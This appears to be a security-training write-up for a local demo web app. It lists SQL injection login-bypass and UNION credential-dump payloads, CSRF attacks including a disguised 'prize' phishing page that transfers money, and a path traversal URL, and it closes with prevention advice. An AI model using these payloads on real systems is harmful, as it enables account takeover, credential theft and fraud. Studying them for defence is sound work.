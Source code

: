 
## 1. SQL INJECTION VECTORS (MariaDB Compatible)

---

### a) **Login Bypass**

**Payload Example 1**

- **Email**: " OR ""="' OR 1=1 -- 
    
- **Password**: anything
    

**Injected Query**:

```sql
SELECT * FROM users WHERE email='' OR 1=1 -- ' AND pass='anything'
```

---
**MariaDB-Specific Variant**

- **Email**: `admin@example.com' #`
    
- **Password**: anything
    

**Injected Query**:

```sql
SELECT * FROM users WHERE email='admin' # ' AND pass='anything'
```

Note: `#` is a valid comment character in MariaDB (like `--` ), and it ignores the rest of the line.

---

### b) **UNION-Based Attack**

**Payload**:

- **Search**: `' UNION SELECT 1, CONCAT(email, ':', pass), 3 FROM users -- `
    

**Injected Query**:

```sql
SELECT id, name, info FROM products WHERE name='' UNION SELECT 1, CONCAT(email, ':', pass), 3 FROM users -- '
```

This would display all users’ credentials in the search results (if column counts and types match).

---
## 2. CSRF Attack Vectors

### JavaScript `fetch()` Method (IMG Tag Alternative)

This uses `fetch()` to simulate a form submission directly in JavaScript:

```html
<script>
fetch("http://localhost/Web-Security-Demo-Application/dashboard.php", {
  method: "POST",
  headers: {
    "Content-Type": "application/x-www-form-urlencoded",
  },
  body: "to_id=7&amount=10000000&transfer=Transfer+Money"
});
</script>
```

> **Note:** While `fetch()` doesn't work cross-origin by default (due to CORS), it's still useful for same-origin CSRF or if the target lacks proper protections.
---

3. Social Engineering
Fake Prize Page with Hidden CSRF Attack

This is an example of a phishing page designed to trick users into clicking a button under the pretense of winning a prize. In reality, clicking the button submits a hidden form that performs a CSRF attack — transferring money without the user’s knowledge.
Malicious HTML Overview:

<form id="csrf-form" action="http://localhost/Web-Security-Demo-Application/dashboard.php" method="POST" target="csrf-frame">
    <input type="hidden" name="to_id" value="2">
    <input type="hidden" name="amount" value="500">
    <input type="hidden" name="transfer" value="Transfer Money">
</form>

<button onclick="document.getElementById('csrf-form').submit();">
    Claim Your Prize Now!
</button>

How it works:

    The page is styled to look legitimate (e.g., prize claim, congratulatory message).

    The user is encouraged to click a big, friendly button to "claim a prize".

    Clicking the button submits a hidden form, which:

        Sends a POST request to the target site (dashboard.php)

        Transfers 500 units to user ID 2, impersonating the victim.

    The request is executed silently inside an iframe, giving no indication to the victim.

    If the victim is already logged in to the vulnerable site (localhost/login_app), the action is performed using their session.

This is a classic CSRF combined with social engineering, where the attacker uses deceptive UI to exploit a user’s trust and active session.

---
## 4. Path Traversal Exploitation

### Reading Sensitive Files

Use directory traversal sequences to access files outside the intended path:

```
http://localhost/Web-Security-Demo-Application/../passwords.txt
```
Let's say that we have a passwords.txt file outside of our website. Using the "../" syntax we escape the site's scope and retreive any files outside of the folder. So ../passwords.txt will get us the passwords.txt file outside of the folder.

This can expose sensitive configuration files, credentials, or other private data if the server doesn’t sanitize the `path` input.

---

## 5. Prevention Techniques

>  For educational purposes — here’s how to fix or mitigate the common vulnerabilities:

---

### a) **SQL Injection**

-  Use **prepared statements** with **parameterized queries**
    
-  Apply strict **input validation** (whitelisting where possible)
    
-  Follow the **principle of least privilege** (minimal DB rights)
    

---

### b) **Cross-Site Request Forgery (CSRF)**

-  Add **anti-CSRF tokens** in forms and validate them server-side
    
-  Use `SameSite` attribute for cookies (`SameSite=Strict` or `Lax`)
    
-  Validate the **Referer** or **Origin** header for critical actions
    
---

### c) **Path Traversal**

-  **Validate and sanitize** all user-controlled file paths
    
-  Use **server-side path whitelisting** or mapping
    
-  Enforce **access control** checks for file operations
    

---

### d) **Authentication & Session Management**

-  Implement proper **session validation** and timeouts
    
-  Use strong **password hashing** (e.g., bcrypt, Argon2) with salting
    
-  Apply **account lockout** or throttling to prevent brute-force attacks
    
